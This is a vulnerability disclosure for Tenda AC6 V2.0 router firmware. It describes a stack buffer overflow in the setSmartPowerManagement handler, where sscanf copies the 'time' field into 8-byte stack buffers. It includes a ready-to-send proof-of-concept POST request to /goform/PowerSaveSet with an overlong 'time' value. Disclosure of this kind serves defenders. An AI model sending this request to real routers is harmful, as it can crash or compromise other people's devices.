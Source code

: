 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "setSmartPowerManagement"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `setSmartPowerManagement` function, a user can craft a POST request to provide the **`time` parameter**. This `time` parameter is then processed by `sscanf(time, "%[^:]:%[^-]-%[^:]:%s", hour_start, min_start, hour_end, min_end);`, which writes the extracted data directly to the stack-allocated variables `hour_start`, `min_start`, `hour_end`, and `min_end`. Since each of these variables has a small size of **8 bytes**, it's very easy to trigger a **stack overflow**.

![image-20250619024343211](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619024343211.png)

poc

```
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.1.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: password=xzbtgb
Connection: close
Content-Length: 493

time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20250619024753760](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619024753760.png)